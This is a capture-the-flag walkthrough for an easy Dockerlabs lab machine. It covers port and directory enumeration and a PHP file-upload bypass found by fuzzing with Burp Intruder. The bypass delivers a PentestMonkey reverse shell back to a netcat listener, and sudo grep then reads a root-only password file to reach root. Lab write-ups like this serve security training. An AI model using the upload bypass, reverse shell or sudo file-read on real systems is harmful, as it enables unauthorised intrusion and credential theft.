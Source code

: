 # Dockerlabs Machine

**Level:** Easy

**Author:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

------------------
## Scanning & Enumeration 

We perform a general scan with **nmap** on the victim machine's IP to identify the open ports. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Next, we use **nmap** default scripts to gather more information about the discovered ports:

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Dockerlabs
```

We access the website to inspect its content:

![image](https://github.com/user-attachments/assets/b843c726-78b8-4d8f-8292-0f0adbe4572b)

After reviewing the page code and interacting with it, we did not found relevant information.

We perform **fuzzing** using **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x html,php,txt,js -b '' -s 200,301
---------------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/scripts.js           (Status: 200) [Size: 919]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
```

We discovered the **machine.php** and **upload.php** files and the **uploads** directory.

--------------
## Explotation

On reviewing the **machine.php** page, we realized the form allows upload files:

![image](https://github.com/user-attachments/assets/6a23ecd1-fdf2-46c0-8566-2e97b447704f)

We prepare the [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) and save it as a **PHP** file. 

Note that we set the **172.17.0.1** as the **IP** and **4444** as the **PORT** for the listener.

We tried to upload the file and realized the server is restricting uploads to **zip** files

![image](https://github.com/user-attachments/assets/66e941d2-aeeb-40e6-99bc-e5ac58ed30c6)

Next, we capture the request with [Burp Suite](https://portswigger.net/burp/communitydownload) **Proxy** and perform a new **fuzzing** test with **Intruder** to identify additional allowed **PHP** extensions.

![image](https://github.com/user-attachments/assets/542229d9-2438-45ee-bf33-6bcec04b7608)

![image](https://github.com/user-attachments/assets/fa80e0e7-84bc-4a65-a3e7-3749bacc01df)

![image](https://github.com/user-attachments/assets/143d5370-a248-4019-9489-8fa2504f8403)

![image](https://github.com/user-attachments/assets/d8fce90b-0d49-4719-bb81-e1c3698e3c87)

We start a **listener** for the reverse shell using **netcat**: 

```shell
nc -lvnp 4444 
-------------------------------------------------------------------
listening on [any] 4444 ...
```

Next, we execute the **reverse shell** file to gain a shell on the victim's machine:

Note that the uploaded files are located in the **uploads** directory.

![image](https://github.com/user-attachments/assets/33c4d87b-80ef-4126-963a-3ae00cc82588)

```shell
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 48346
Linux 8b47fc7b6b14 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 22:41:59 up 12:39,  0 user,  load average: 0.10, 0.12, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@8b47fc7b6b14:/$
```
------------------------------
### TTY configuration

We configure the **TTY** for comfortable operation on the console:

```shell
script /dev/null -c bash 
```
After pressing **Ctrl  +  Z**, execute:

```shell
stty raw -echo; fg
reset xterm
stty rows 35 columns 156
export TERM=xterm
export SHELL=bash
```

Adjust **rows** and **columns** to match the attacker's screen dimensions:

```shell
stty size
```

Now you can use **Ctrl+L** to clear the screen and **Ctrl+C** as needed.


------------------------------
## Privileges escalation

We use **sudo -l** to check if we can execute anything as `root`:

```shell
sudo -l
------------------------------------------------
User www-data may run the following commands on 8b47fc7b6b14:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

We can run `cut` and `grep` as `root` using [GTFOBins for cut](https://gtfobins.github.io/gtfobins/cut/#sudo) or [GTFOBins for grep](https://gtfobins.github.io/gtfobins/grep/#sudo).

Note that these binaries do not allow privilege escalation, but they can be used to access a restricted file.

We reviewed the system directories `opt` and `etc` to try to find any hits.

```shell
ls /etc/
------------------------------------------------
adduser.conf            cron.daily      gai.conf   init.d         localtime    nsswitch.conf  profile.d  resolv.conf  ssl                sysctl.d
alternatives            debconf.conf    gnutls     issue          login.defs   opt            protocols  rmt          subgid             systemd
apache2                 debian_version  group      issue.net      logrotate.d  os-release     rc0.d      rpc          subgid-            terminfo
apt                     default         group-     kernel         lsb-release  pam.conf       rc1.d      security     subuid             timezone
bash.bashrc             deluser.conf    gshadow    ld.so.cache    machine-id   pam.d          rc2.d      selinux      subuid-            ucf.conf
bindresvport.blacklist  dpkg            gshadow-   ld.so.conf     mime.types   passwd         rc3.d      services     sudo.conf          ufw
ca-certificates         e2scrub.conf    gss        ld.so.conf.d   mke2fs.conf  passwd-        rc4.d      shadow       sudo_logsrvd.conf  update-motd.d
ca-certificates.conf    environment     host.conf  ldap           mtab         perl           rc5.d      shadow-      sudoers            xattr.conf
cloud                   ethertypes      hostname   legal          nanorc       php            rc6.d      shells       sudoers.d
cron.d                  fstab           hosts      libaudit.conf  networks     profile        rcS.d      skel         sysctl.conf
```

```shell
ls /opt/
------------------------------------------------
nota.txt
```

We discovered a file named **nota.txt** located in the **opt** directory.

```shell
cat /opt/nota.txt
------------------------------------------------
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.
```

Next, we tried to access the contents of the **clave.txt** file, but, it is a restricted.

```shell
cat /root/clave.txt
------------------------------------------------
cat: /root/clave.txt: Permission denied
```

Next, we used the [GTFOBins for grep](https://gtfobins.github.io/gtfobins/grep/#sudo) to access the restricted file.

```shell
LFILE=/root/clave.txt
sudo grep '' $LFILE
```

We obtained the **root** password, and proceeded to authenticate as **root** using **su**

```shell
su root
```

```
whoami
----------------
root
```
